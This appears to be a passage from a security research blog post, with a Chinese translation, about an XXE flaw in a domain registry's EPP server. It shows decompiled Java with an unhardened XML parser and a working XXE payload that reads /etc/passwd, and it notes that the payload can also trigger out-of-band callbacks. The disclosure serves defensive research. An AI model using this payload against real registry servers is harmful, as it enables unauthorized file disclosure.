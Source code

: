 ```java
/*     */   public EppConnection() {
/*     */     try {
/* 106 */       DocumentBuilderFactory dFactory = DocumentBuilderFactory.newInstance();
/* 107 */       dFactory.setNamespaceAware(true);
/* 108 */       dFactory.setIgnoringElementContentWhitespace(true);
/* 109 */       this.dBuilder = dFactory.newDocumentBuilder();
/*     */       
/* 111 */       TransformerFactory tFactory = TransformerFactory.newInstance();
/* 112 */       this.transformer = tFactory.newTransformer();
/* 113 */       this.transformer.setOutputProperty("encoding", "UTF-8");
/* 114 */     } catch (ParserConfigurationException e) {
/* 115 */       e.printStackTrace(System.out);
/* 116 */     } catch (TransformerConfigurationException e) {
/* 117 */       e.printStackTrace(System.out);
/*     */     } 
/*     */   }
```

As you can see above, the document builder factory that is used for all XML processing has not been set up to ignore external entities or DTDs. Due to this, any XML processing done by the in-built EPP server was vulnerable to XXE.  
正如您在上面看到的，用于所有 XML 处理的文档构建器工厂还没有设置为忽略外部实体或 DTD。因此，内置 EPP 服务器所做的任何 XML 处理都容易受到 XXE 的攻击。

The below XXE payload will successfully fire when the EPP server processes our XML:  
当 EPP 服务器处理我们的 XML 时，下面的 XXE 有效负载将成功触发：

```xml
<?xml version="1.0" standalone="no"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <epp xmlns="urn:ietf:params:xml:ns:epp-1.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="urn:ietf:params:xml:ns:epp-1.0 epp-1.0.xsd"> <command> <poll op='req' /> <clTRID>&xxe;</clTRID> </command> </epp>
```

This example was also utilized in our simple checker script above in this blog post, and the SYSTEM entity can be changed to a Burp Collaborator URL to capture out of bound hits.  
这个例子也被用在我们的简单检查器脚本中，SYSTEM 实体可以被更改为 Burp Collaborator URL 以捕获超出范围的命中。

While the XXE was an impactful finding, we became curious about the security posture of this registry software as it is used so heavily to operate a significant portion of the internet as we know it.  
虽然 XXE 是一个有影响力的发现，但我们对这个注册表软件的安全态势感到好奇，因为它被大量用于操作我们所知道的互联网的很大一部分。

Checking the `web.xml` file, we started mapping out pre-authentication routes until we came across the following servlet definition:  
检查 `web.xml` 文件，我们开始绘制预认证路由，直到我们遇到以下 servlet 定义：

```xml
	<!-- Cities servlet for contact create -->
	<servlet>
		<servlet-name>CitiesServlet</servlet-name>
		<servlet-class>cx.cocca.utils.CitiesServlet
		</servlet-class>
	</servlet>
	<servlet-mapping>
		<url-pattern>/cities</url-pattern>
		<servlet-name>CitiesServlet</servlet-name>
	</servlet-mapping>
```
